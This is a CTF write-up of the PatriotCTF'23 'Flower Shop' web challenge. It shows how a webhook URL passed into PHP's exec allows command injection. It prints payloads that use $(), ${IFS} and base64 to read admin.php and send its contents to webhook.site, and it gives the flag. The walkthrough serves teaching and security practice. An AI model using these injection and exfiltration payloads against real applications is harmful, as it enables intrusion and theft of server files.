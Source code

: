 ```yaml
---
title: "[PatriotCTF'23] Flower Shop"
date: 2023-09-12T12:15:01+08:00
authors:
- Bowen
tags:
- web
- php
ctfs:
- PatriotCTF'23
---
```


# Flower Shop

This web challenge involves exploiting a `exec` statement in a vulnerable PHP script. Apparently this solution was unintended, but it made the challenge a whole lot easier as the intended solution was almost impossible to solve.

## Description

> Flowers!

The files for this challenge can be found [here](FlowerShop.zip).

---

## Overview

![flower shop page](flower-shop.png)

Upon visiting the site, we see that there are fields to sign up, login, and reset one's password. The login and signup functionalities seem to function normally and do not seem vulnerable to SQL injections. However, when looking through the source for password reset, I came across an `exec` statement.

```php
// File: app/classes/reset.class.php
public function resetPassword() {
    $this->wh = $this->checkUser($this->uid);
    if (!$this->wh) {
        header("location: ../login.php?error=InvalidUser");
        exit();
    }

    $this->tmpPass = $this->tmpPwd($this->uid);

    // There's an exec statement here, are we able to exploit it?
    exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");

    return $this->tmpPass;
}
```

## Inspecting Exec

The `exec` function seems to be running a shell command on `send_pass.php` with the arguments of `tmpPass` and `wh`. `tmpPass` is generated within the current function and we do not have any control over it. However, `wh` contains the value of the webhook that we pass in when signing up.

`wh` does seem to have some restrictions too. From `signup.class.php` we can infer that `wh` must be a valid URL as it is passed through the `filter_var` function with the `FILTER_VALIDATE_URL` flag. This also means that all illegal characters are removed (such as spaces). You can find out more about it [here](https://www.w3schools.com/php/filter_validate_url.asp).

```php
// File: app/classes/signup.class.php
public function signupUser() {
    // ...
    if (!filter_var($this->wh, FILTER_VALIDATE_URL)) {
        header("location: ../login.php?error=NotValidWebhook");
        exit();
    }
    // ...
}
```

## Bash in a Bash

Since the commands are passed into bash, we can evaluate expressions within a command using `$(expression here)`. For example, if we want to read a value from a file and send it to a website using cURL, we normally do it the following way:

```bash
$ cat file_to_read.txt
this is some example content

$ curl http://example.com?p=this is some example content
```

However, it can be simplified into:

```bash
$ curl http://example.com?p=$(cat file_to_read.txt)
```

Our command `cat file_to_read.txt` will be ran first, `$(cat ...)` will be replaced with the output of the command.

## Exploiting Exec

Using the technique above, we can craft a malicious webhook that reads the `admin.php` file to leak the flag:

`https://webhook.site/...?p=$(cat admin.php)`

However, the payload above doesn't work just yet. The `filter_var` function in `signup.class.php` removes all spaces, leaving us with an invalid command of `catadmin.php`.

So, how can we bypass this space filtering? [This](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces) post on StackExchange gives us the perfect expression we need: `${IFS}`. When `${IFS}` is evaluated, it gives us an empty space 😃

However, if there are spaces or newlines in the parameter passed to cURL, it will treat it as seperate arguments and not send them 😢

![curl params not working](curl-params-not-working.png)

## Removing Spaces

In order to remove the spaces from the output, the simplest way would be to read and encode the file using `base64`, so lets try to craft a command that does just that. The argument `-w0` tells `base64` to not print newlines and keep the output to one single line.

`base64 -w0 ../admin.php`

Lets replace all the spaces with `${IFS}` and register that URL as the webhook!

`https://webhook.site/...?p=$(base64${IFS}-w0${IFS}../admin.php)`

And we get the following output! Once we decode it, we'll be able to extract the flag 🥳

![response](response.png)

Flag: `CACI{y0uv3_f0und_th3_rar3st_s33d_0f_all!}`
